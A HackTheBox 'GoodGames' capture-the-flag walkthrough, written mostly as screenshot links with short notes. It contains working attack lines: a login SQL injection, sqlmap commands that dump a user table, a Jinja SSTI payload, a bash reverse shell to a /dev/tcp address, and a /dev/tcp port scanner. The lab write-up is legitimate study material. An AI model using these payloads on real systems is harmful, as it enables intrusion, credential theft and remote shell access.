 # nmap
## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/nmap%20port%20scan.png)

# gobuster
## gobuster main
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/gobuster-main.png)

# domain

## goodgame.htb/blog
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames.htb.blog.png)

## STORE: site is in progress, nothing interesting
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames.htb.coming-soon.png)

Login Panel: goodgames.htb
mail: @ is required and therefore not sqli testable --> intercept with burp 
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames%20login%20page.png)

Try simple sqli in login creds 
sqli:  'or 1=1-- -

## Intercept
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/burpsuite%20login%20intercept.png)

## Payload
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/burpsuite%20sqli%20success.png)

//Succesfull payload:   ' or 1=1-- -
## Succesfull login
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/domain%20login%20successful.png)

## Dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames%20dashboard.png)

## new subdomain: internal-administration.goodgames.htb
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/goodgames%20unknown%20host.png)

## Again a login
## Try creds found by sqlmap: admin:superadministrator
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/internal-administration.goodgames.htb.login.png)

# sqlmap
//dump databases
````
sqlmap -r request-login.txt --dbs

`````

## database snippet
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/sqlmap%20databases.png)

dump database main and its tables entrys
````
sqlmap -r request-login.txt -D main --tables

## speed it up

sqlmap -r request-login.txt --dbs --threads 10 --time-sec 1
`````

## database main tables
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/sqlmap%20database%20main%20tables.png)
dump user table
````
sqlmap -r request-login.txt -D main -T user --dump

## speed it up

sqlmap -r request-login.txt -D main -T user --dump --threads 10 --time-sec 1
`````
## receive creds from database
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/sqlmap%20creds.png)

## crackstation
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/crackstation%20admin%20hash.png)

## internal.administration dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/internal%20admnistration%20dashboard.png)

## Flask application dashborar in settings: SSTI {{7*7}} = 49
![](Pasted image 20220913185124.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/ssti%20reflected.png)


![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/ssti%20payloads%20to%20rce.png)

ssti payload: make http server in www and host index.html file.
index.html content: 
````

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('10.10.14.7').read() }}

````
make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

![](python3 http server on port 80.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/docker%20shell.png)

ls -la on entrypoint of shell shows dockerfile!
![](initial shell list files.png)
augustus got user name: 1000 --> docker?
mount shows that the home directory is mounted
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/home.augustus%20is%20mounted.png)

internal ip of docker: 172.19.0.2
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/shell%20list%20networks.png)


nmap isnt installed on machine; make own bash script like this:
````
for port in $(seq 1 1000); do (echo "blah" > /dev/tcp/172.19.0.1/$port && echo "open - $port") 2>/dev/null; done

`````
writes blah to the port and if succeeds (&&) it will print open port

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/GoodGames/screenshots/bash%20custom%20port%20scanner.png)




XXXXXXXXXXXX